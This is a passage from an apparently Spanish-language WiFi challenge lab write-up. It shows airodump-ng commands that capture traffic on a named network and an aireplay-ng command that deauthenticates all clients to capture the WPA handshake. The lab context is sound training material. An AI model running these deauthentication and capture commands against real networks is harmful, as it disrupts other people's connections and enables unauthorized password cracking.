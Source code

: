 ```bash
❯ airodump-ng -c 1 --essid wifi-mobile wlan0mon -w captura
```

Ahora usaremos `aireplay-ng` en otra consola para expulsar a todos los clientes y cuando se vuelvan a conectar poder capturar el **handshake** ya que emiten el **probe request** como lo hemos visto en los posts anteriores

```bash
❯ aireplay-ng -0 0 -a F0:9F:C2:71:22:22 wlan0mon
```

![](/assets/images/wifi-challenge-lab/psk2.png)

Ahora hacemos un `ctrl+c` y esperamos a un cliente se reasocie para obtener el **handshake**

![](/assets/images/wifi-challenge-lab/psk3.png)
